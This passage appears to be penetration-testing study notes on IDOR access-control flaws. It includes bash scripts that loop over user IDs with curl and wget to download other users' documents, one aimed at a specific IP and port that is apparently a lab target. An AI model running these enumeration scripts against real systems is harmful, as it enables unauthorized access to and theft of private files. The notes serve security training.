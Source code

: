 Repeat same API call as `User 2` . If it works means that webapp requires only a valid logged-in session to make API call but no access control on backend to verify the data being called by the user.

### Enumeration

If uid is set like ( **uid=1**) And the files may be like

```
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

But when accessed with **uid=2**

```
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

There is an access control issue then we can try writing a bash script to extract files from all uids from 1 to 10.

Identify the link. In this case it is like so

```html
<li class="pure-tree_link"><a href="/documents/Invoice_1_09_2021.pdf" target="_blank">Invoice</a></li>

<li class="pure-tree_link"><a href="/documents/Report_1_10_2021.pdf" target="_blank">Report</a></li>
```

We can grep `grep "<li class='pure-tree_link'>"`&#x20;

We can use regex too `grep -oP "\/documents.*?.pdf"`

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

To match any file extension: `\/documents.*?\\.\\w+` Another example:

```bash
#!/bin/bash

url="http://94.237.63.83:38856/"

for i in {1..20}; do
    for link in $(curl -s -X POST -d "uid=$i" "$url/documents.php" | grep -oP "\/documents.*?\\.\\w+"); do
        curl -O $url/$link
    done
done
```
